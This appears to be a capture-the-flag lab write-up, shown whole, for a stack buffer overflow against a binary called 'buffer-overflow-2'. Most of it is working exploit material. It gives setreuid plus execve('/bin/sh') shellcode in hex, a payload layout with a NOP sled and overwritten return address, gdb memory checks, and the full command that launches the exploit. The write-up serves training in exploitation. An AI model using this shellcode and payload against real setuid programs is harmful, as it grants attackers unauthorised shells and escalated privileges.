pwn shellcraft -f d amd64.linux.setreuid 1003
\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05
31ff66bfeb036a71584889fe0f05

payload =
NOP sled (90)  |  shellcode(54)  |  random chars (19)  |  Memory Address(6)
Total Length: 90 + 54 + 19 + 6 = 169

`payload = 'A'*90 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'B'*19 + 'C'*6`


run $(python -c "print('A'*90 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + 'B'*19 + 'C'*6)")

`(gdb) x/100x $rsp-200`
NOP sled: 0x41414141

shellcode: 0x58716a03

random chars: 0x42424242

return address: 0x00007fff

Let’s take **0x7fffffffe278** as return address (between future NOP sled and beginning of shell code).

./buffer-overflow-2 $(python -c "print('\x90'*90 + '\x31\xff\x66\xbf\xeb\x03\x6a\x71\x58\x48\x89\xfe\x0f\x05\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x90'*19 + '\x78\xe2\xff\xff\xff\x7f')")


wowanothertime!!





















